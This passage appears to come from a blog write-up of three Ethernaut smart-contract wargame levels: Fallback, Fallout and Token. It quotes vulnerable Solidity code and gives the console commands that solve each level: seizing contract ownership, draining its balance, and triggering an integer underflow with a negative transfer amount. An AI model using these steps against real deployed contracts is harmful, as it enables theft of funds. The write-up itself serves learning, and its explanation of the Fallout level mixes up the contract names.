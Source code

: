From the doc, we see that the fallback function is executed when
1. you call a function that don't matches any function name on the contract.
2. you don't assign any data to the trasaction (e.g. send pure transaction).

So This is how we do to win the challenge.
```javascript
> await contract.contribute({value:555}) //for become a contributor
> await contract.sendTransaction({value:555}) //for invoke fallback function, become an owner
> await contract.withdraw() //get all the money
```

<h3>2. Fallout</h3>
We have to claim ownership of the target contract. While take a look at a given source code I
found something interesting.
{% highlight code%}
/* constructor */
function Fal1out() payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
{% endhighlight %}

Wait, a comment on `Fal1back` aims it to be a constructor but it is not the same name 
with the contract name (`Fallback`). So it is not constrcutor, it is a `function`.
And when we call this function it will assign the sender to become an owner.
```javascript
await contract.Fal1out()
```

This is all we have to do. We will become the owner and the winner at the same time.

<h3>3. Token</h3>
The goal here is to find the way to get more token.

There is only one function that could be an attack vector.
{% highlight code%}
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
{% endhighlight %}

In this function do you see something wrong?. The only one condition to transfer is the balance of our token must more than the amount of value we want to transfer. The condition is not coverage enough. What if we send **negative** value. At the beginning we have 20 tokens. When we call transfer with address parameter as the target contract and the negative value to trick an intergered overflow.

```javascript
await contract.transfer(instance, -55555)
```

So we have to check the amout of value that it is greater that zero or not.
{% highlight code%}
_value > 0
{% endhighlight %}


[ethernaut-ctf]: https://ethernaut.zeppelin.solutions
[eternaut]: https://en.wikipedia.org/wiki/The_Eternaut
[metamask]: https://metamask.io
[remix]: https://remix.ethereum.org
[doc]: http://solidity.readthedocs.io/en/develop/contracts.html
[etherscan]: https://ropsten.etherscan.io
[delegation-parity]: https://blog.zeppelin.solutions/on-the-parity-wallet-multisig-hack-405a8c12e8f7
[reentrancy-blog]: https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4
[reentrancy-thedao]: http://hackingdistributed.com/2016/07/13/reentrancy-woes/
[img-intro]: {{ site.baseurl }}/assets/img/posts/ethernautctf/intro.PNG 
[img-data-sent]: {{ site.baseurl }}/assets/img/posts/ethernautctf/data-sent.PNG 
[img-how-reentrnacy-work]: {{ site.baseurl }}/assets/img/posts/ethernautctf/how-reentrancy-work.PNG 